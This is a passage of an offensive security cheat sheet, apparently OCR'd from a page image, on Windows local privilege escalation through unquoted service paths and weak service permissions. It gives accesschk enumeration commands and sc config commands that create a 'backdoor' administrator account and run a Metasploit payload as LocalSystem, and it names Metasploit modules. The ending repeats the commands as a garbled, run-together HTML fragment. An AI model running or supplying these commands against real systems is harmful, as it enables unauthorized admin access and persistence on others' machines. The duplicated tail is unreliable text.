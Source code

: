     C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe
    
    To be secure it should be like this:
     “C:\Program Files (x86)\Program Folder\A Subfolder\Executable.exe”
    When Windows attempts to run this service, it will look at the following paths in order and will run the first EXE that it will find:
       C:\Program.exe
       C:\Program Files.exe
       C:\Program Files(x86)\Program Folder\A.exe
           …
    Check permissions of folder path
       icacls "C:\Program Files (x86)\Program Folder"
    
    If we can write in the path we plant a backdoor with the same name with the service and restart the service.
    
    Metasploit module:
    
    exploit/windows/local/trusted_service_path
    
    ```
    
- CHECK FOR VULNERABLE SERVICES
    
    ```
    https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exe
    
    accesschk.exe -uwcqv "Authenticated Users" * /accepteula
    accesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteula
    accesschk.exe -qdws Users C:\Windows\
    Then query the service using Windows sc:
    sc qc <vulnerable service name>
    
    Then change the binpath to execute your own commands (restart of the service will most likely be needed):
    
    sc config <vuln-service> binpath= "net user backdoor backdoor123 /add"
    sc stop <vuln-service>
    sc start <vuln-service>
    sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add"
    sc stop <vuln-service>
    sc start <vuln-service>
    Note - Might need to use the depend attribute explicitly:
    sc stop <vuln-service>
    sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""
    sc start <vuln-service>
    
    Metasploit module:
    exploit/windows/local/service_permissions
    <a href="https://web.archive.org/web/20080530012252/http://live.sysinternals.com/accesschk.exeaccesschk.exe -uwcqv "Authenticated Users" * /accepteulaaccesschk.exe -qdws "Authenticated Users" C:\Windows\ /accepteulaaccesschk.exe -qdws Users C:\Windows\Then query the service using Windows sc: sc qc <vulnerable service name>Then change the binpath to execute your own commands (restart of the service will most likely be needed): sc config <vuln-service> binpath= "net user backdoor backdoor123 /add" sc stop <vuln-service>sc start <vuln-service>sc config <vuln-service> binpath= "net localgroup Administrators backdoor /add" sc stop <vuln-service>sc start <vuln-service>Note - Might need to use the depend attribute explicitly: sc stop <vuln-service>sc config <vuln-service> binPath= "c:\inetpub\wwwroot\runmsf.exe" depend= "" start= demand obj= ".\LocalSystem" password= ""sc start
    